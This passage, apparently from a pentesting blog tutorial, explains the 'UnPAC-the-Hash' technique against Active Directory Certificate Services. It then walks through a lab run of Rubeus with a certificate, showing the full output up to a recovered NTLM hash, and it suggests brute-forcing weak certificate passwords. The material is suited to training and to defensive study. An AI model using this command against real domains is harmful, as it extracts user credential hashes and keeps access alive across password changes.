 The NTLM hashes can then be retrieved after making a TGS-REQ through U2U, combined with S4U2self, which is a Service Ticket request sent to the KDC where the user requests to authenticate themselves.

The diagram below shows how UnPAC-The-Hash works, but why is this technique advantageous for us as attackers? The advantage is that by generating a user's certificate and using the technique, you will always obtain the current NTLM HASH of that user, meaning:
- Even if the user changes their password, the certificate will remain valid for use (One of the other advantages of ADCS as well, LOL 🤣).
- Even if the user changes their password, with UnPAC, you will always be able to extract the NTLM hash of their current password..

![unpac](/assets/unpac.png)

In the future, we will combine this technique with another one known as CertSync, which is a way to perform "DCSync" but using certificates. Now, let's perform this in a lab; locally, I have an AD environment already set up with ADCS and configured templates.

To execute this technique, the only requirement is that you need to know the certificate's password. So, whenever you're executing, ensure it's from a certificate you created or from a certificate with a weak password that you've managed to brute-force.

```powershell
    .\Rubeus.exe asktgt /getcredentials /user:paulo.victor /certificate:"C:\Tools\esc4-DA.pfx" /password:Senha /domain:corp.local /dc:corp-dc /show

    ______        _
    (_____ \      | |
    _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v2.2.1

    [*] Action: Ask TGT

    [*] Using PKINIT with etype rc4_hmac and subject: CN=Daniel Moura, OU=Usuarios, OU=Inferi, DC=CORP, DC=LOCAL
    [*] Building AS-REQ (w/ PKINIT preauth) for: 'corp.local\paulo.victor'
    [*] Using domain controller: 10.0.0.10:88
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

    doIGVjCCBlKgAwIBBaEDAgEWooIFbTCCBWlh....

    ServiceName              :  krbtgt/corp.local
    ServiceRealm             :  CORP.LOCAL
    UserName                 :  paulo.victor
    UserRealm                :  CORP.LOCAL
    StartTime                :  1/10/2025 11:33:04 PM
    EndTime                  :  1/11/2025 9:33:04 AM
    RenewTill                :  1/17/2025 11:33:04 PM
    Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
    KeyType                  :  rc4_hmac
    Base64(key)              :  YJHc9+T6Rdt8PrWc5eEdZQ==
    ASREP (key)              :  51901227A9A7C2FDF729D40313291627

    [*] Getting credentials using U2U

    CredentialInfo         :
        Version              : 0
        EncryptionType       : rc4_hmac
        CredentialData       :
        CredentialCount    : 1
        NTLM              : **E15E48546D35C3F2EF7FB995A4A9548E**
```
